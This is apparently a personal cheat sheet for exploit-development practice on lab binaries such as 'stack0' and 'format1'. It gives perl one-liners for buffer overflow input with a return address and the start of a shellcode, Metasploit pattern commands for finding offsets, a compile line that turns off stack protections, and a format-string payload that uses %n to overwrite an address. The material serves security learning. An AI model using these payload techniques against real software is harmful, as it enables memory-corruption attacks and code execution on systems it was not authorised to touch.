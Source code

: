 -   Using PERL for argument.
    ---------------------------------------------------------------------------------------------------------------------------
`\`perl -e 'print  "\x31\xc0\x50\x68\" . "A"x76 . "\x28\xf4\xff\xbf" '\``
`perl -e 'print  "A"x100 '`
	- inside gdb# run $(perl -e 'print "A"x100')
 
-   Patterns for rewrite 
    ---------------------------------------------------------------------------------------------------------------------------
`/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 200`
`/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 200 -q 63413563` 


-   Compile in Kali with no protection
    ---------------------------------------------------------------------------------------------------------------------------
gcc stack0.c -o stack0 -fno-stack-protector -z execstack -no-pie -m32 -ggdb


-   HEX file representation
    ---------------------------------------------------------------------------------------------------------------------------
xxd pattern
00000000: 4161 3041 6131 4161 3241 6133 4161 3441  Aa0Aa1Aa2Aa3Aa4A
00000010: 6135 4161 3641 6137 4161 3841 6139 4162  a5Aa6Aa7Aa8Aa9Ab

-   Strings search
    ---------------------------------------------------------------------------------------------------------------------------
strings filename
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2A


-   Format string example
    ---------------------------------------------------------------------------------------------------------------------------
run $(perl -e 'print "\xcc\xcc\xcc". "\x38\x96\x04\x08" . "%x"x165 . "%n"')
 - \x38\x96\x04\x08 address of parameter to change
 - %n should be padded exactly to location of string "\x38\x96\x04\x08" in the stack
 
First find the writable parameter with %x - in our case %6$x:
perl -e 'print  "AAAABBBB"."\x24\x97\x04\x08"."\x26\x97\x04\x08"."%6\$33956x" ."%6\$n"."%7\$33616x" ."%7\$n" ' > exploit

To make:  0x8049724:	0x080484b8
1) we write 84b8 at 0x8049724
2) we write 010804 at 0x8049726 ( + something to 84b8)
  
-   File info
    ---------------------------------------------------------------------------------------------------------------------------
show  dynamic lynced libraries#     ldd format1
show  calls #                       strace ./format1


-   GEF
    ---------------------------------------------------------------------------------------------------------------------------
- to divide output into 2 windows
run gef in tmux session#    tmux new-session -s shared
run gef #                   gdb -q ./binnary
crutch to make it work#     gef config gef.debug 1


	
